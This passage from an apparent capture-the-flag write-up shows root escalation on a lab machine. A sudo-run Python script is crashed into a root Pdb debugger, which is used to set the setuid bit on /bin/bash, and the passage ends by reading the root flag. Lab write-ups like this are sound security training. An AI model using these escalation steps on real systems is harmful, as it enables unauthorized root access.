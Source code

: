 We executed this script.

```
user@forge:~$ sudo /usr/bin/python3 /opt/remote-manage.py
Listening on localhost:26816
```

We also opened another ssh session and connected to that port with `nc`. 

```
user@forge:~$ nc localhost 26816
Enter the secret passsword: secretadminpassword
Welcome admin!

What do you wanna do: 
[1] View processes
[2] View free memory
[3] View listening sockets
[4] Quit
```

After typing in random data (exluding numbers from 1 to 4), we pressed enter and switched to the first ssh session, where script was running. We got an error and opportunity to write our own script. So we set setuid bit, to run `/bin/bash` with root permissions.

```
user@forge:~$ sudo /usr/bin/python3 /opt/remote-manage.py
Listening on localhost:26816
invalid literal for int() with base 10: b'user@forge:~$ nc localhost 26816\nEnter the secret passsword: secretadminpassword'
> /opt/remote-manage.py(27)<module>()
-> option = int(clientsock.recv(1024).strip())
(Pdb) import os
(Pdb) os.system('chmod u+s /bin/bash`)
*** SyntaxError: EOL while scanning string literal
(Pdb) os.system('chmod u+s /bin/bash')
0
(Pdb) 
```

Then we exited python shell and executed `/bin/bash -p`.

```
user@forge:~$ /bin/bash -p
bash-5.0# whoami
root
bash-5.0# 
```

We obtained what we were looking for, so we went to `/root` folder to see a root flag.

```
bash-5.0# cd /root
bash-5.0# ls
clean-uploads.sh  root.txt  snap
bash-5.0# cat root.txt
7a6202344ae2d7f37840e91b2f1ec499
bash-5.0# 
```

After getting root flag, we could state that the machine was solved entirely (user and root flag were obtained).
